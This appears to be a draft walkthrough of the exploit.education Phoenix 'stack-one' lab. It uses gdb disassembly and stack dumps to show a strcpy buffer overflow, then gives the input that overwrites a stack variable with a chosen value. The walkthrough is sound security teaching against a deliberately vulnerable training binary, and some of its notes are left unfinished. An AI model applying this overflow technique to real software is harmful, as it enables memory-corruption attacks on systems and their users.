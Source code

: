 # stack-one

_The source code for this level can be found here: [stack-one source code](stack-one.c) (https://exploit.education/phoenix/stack-one/)_

This time, our goal is to change the variable `locals.changeme` to hex value `0x496c5962`. 

Let us have a look at the man page for the function strcopy. The description section reads: 


> "_The strcpy() function copies the string pointed to by src, including the terminating null byte ('\0'), to the buffer pointed to by dest.  The strings may not overlap, and the destination string dest must be large enough to receive the copy. Beware of buffer overruns!_"

Here, the pointer `dest` refers to the first parameter and the pointer `src` refers to the second one. So strcopy copies a string from one place in memory to another. The description warns us of buffer overruns. In the bugs section we find: 

> _If the destination string of a strcpy() is not large enough, then anything might happen.  Overflowing fixed-length string buffers is a favorite cracker technique for taking complete control of the machine.  Any time a program reads or copies data into a buffer, the program first needs to check that there's enough space.  This may be unnecessary if you can show that overflow is impossible, but be careful: programs can get changed over time, in ways that may make the impossible possible._ 

Like with gets, strcopy by itself does not check whether the destination buffer is large enough to hold the source string that we wish to copy. If it is not, the program will simply continue to write outside the buffer, overwriting the contents of addresses above it. Since we can freely control the source string via argv, we can easily write whatever we want outside the buffer. 

We expect the changeme variable to be positioned just above the buffer on the stack. Let us open stack-one in gdb and check that this is indeed the case.

```console
user@phoenix-amd64:/opt/phoenix/amd64$ gdb stack-one
gef➤  disassemble main
Dump of assembler code for function main:
...output omitted...
   0x000000000040069b <+46>:	call   0x4004d0 <errx@plt>
   0x00000000004006a0 <+51>:	mov    DWORD PTR [rbp-0x10],0x0
   0x00000000004006a7 <+58>:	mov    rax,QWORD PTR [rbp-0x60]
   0x00000000004006ab <+62>:	add    rax,0x8
   0x00000000004006af <+66>:	mov    rdx,QWORD PTR [rax]
   0x00000000004006b2 <+69>:	lea    rax,[rbp-0x50]
   0x00000000004006b6 <+73>:	mov    rsi,rdx
   0x00000000004006b9 <+76>:	mov    rdi,rax
   0x00000000004006bc <+79>:	call   0x4004a0 <strcpy@plt>
   0x00000000004006c1 <+84>:	mov    eax,DWORD PTR [rbp-0x10]
   0x00000000004006c4 <+87>:	cmp    eax,0x496c5962
   0x00000000004006c9 <+92>:	jne    0x4006d7 <main+106>
...output omitted...
   0x00000000004006f0 <+131>:	call   0x4004e0 <exit@plt>
End of assembler dump.
```

At <main+51> we see that the changeme variable is being set to 0. It starts at rbp-0x10. The next three instructions move a pointer to argv\[1\] (which is  into rdx, but argv\[1] should be the second argument

Let us set breakpoints before and after `strcopy` so that we can see what happens on the stack. To keep it simple, we also turn of gef context **(DOESN'T WORK???)**. After running the program with 64 bytes of all A's followed by B, C, D and E as input, we examine the stack before and after `strcopy`. 

```console
gef➤  break \*0x00000000004006bc
Breakpoint 1 at 0x4006bc
gef➤  break \*0x00000000004006c1
Breakpoint 2 at 0x4006c1
gef➤  gef config context.enable=False
gef➤  r $(python -c 'print("A"*64 + "BCDE")')
Starting program: /opt/phoenix/amd64/stack-one $(python -c 'print("A"*64 + "BCDE")')
Welcome to phoenix/stack-one, brought to you by https://exploit.education

Breakpoint 1, 0x00000000004006bc in main ()
gef➤  x/68bx $rbp-0x50
0x7fffffffe480: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe488: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe490: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe498: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe4a0: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe4a8: 0x28    0xe5    0xff    0xff    0xff    0x7f    0x00    0x00
0x7fffffffe4b0: 0x02    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fffffffe4b8: 0x40    0xe5    0xff    0xff    0xff    0x7f    0x00    0x00
0x7fffffffe4c0: 0x00    0x00    0x00    0x00
gef➤  x $rbp-0x50
0x7fffffffe480: 0x00
gef➤  x $rbp-0x10
0x7fffffffe4c0: 0x00
```

The first 8 lines, or 64 bytes, is the `dest` buffer. Most of the bytes in the buffer are zero, but there are some random non-zero values there as well. The 4 last bytes is the `changeme` integer, which you can see is set to 0. Next, we continue the program until the breakpoint after strcopy and examine the stack again. As you can see below, the buffer is now completely filled with `0x41`, which is the hex value corresponding to the ASCII character `A`. The `changeme` variable now holds the value `0x45444342` which corresponds to the input `BCDE`. 

```console
gef➤  c
Continuing.

Breakpoint 2, 0x00000000004006c1 in main ()
gef➤  x/68bx $rbp-0x50
0x7fffffffe480: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7fffffffe488: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7fffffffe490: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7fffffffe498: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7fffffffe4a0: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7fffffffe4a8: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7fffffffe4b0: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7fffffffe4b8: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7fffffffe4c0: 0x42    0x43    0x44    0x45
gef➤  c
Continuing.
Getting closer! changeme is currently 0x45444342, we want 0x496c5962
[Inferior 1 (process 327) exited normally]
```

So, to beat this excercise, our input should be 64 bytes of random input followed by 0x496c5962. That hex number is stored as 4 consecutive bytes starting at `rbp-0x10` and ending at `rbp-0d`. Each character we give as input to the program will be translated to its ASCII value. We must therefore find what ASCII characters correspond to the hex values `0x49`, `0x6c`, `0x59`, `0x62`. They are `I`, `l`, `Y`, and `b`, respectively. (See `man ascii`.) Since x86-64 uses a little endian system, we must place the least significant byte (`0x62`) at the smallest/lowest address (`rbp-0x10)`. Therefore, the characters must be fed to the program in reverse order, i.e., `bYlI`.

```console
gef➤  r $(python -c 'print("A"*64 + "bYlI")')
gef➤  c
gef➤  x/68bx $rbp-0x50
...output omitted...
0x7fffffffe4b8: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7fffffffe4c0: 0x62    0x59    0x6c    0x49
gef➤  c
Continuing.
Well done, you have successfully set changeme to the correct value
```

There you have it. Finally, to complete the excercise, we simply run the following:

```console
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one $(python -c 'print("A"*64 + "bYlI")')
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```


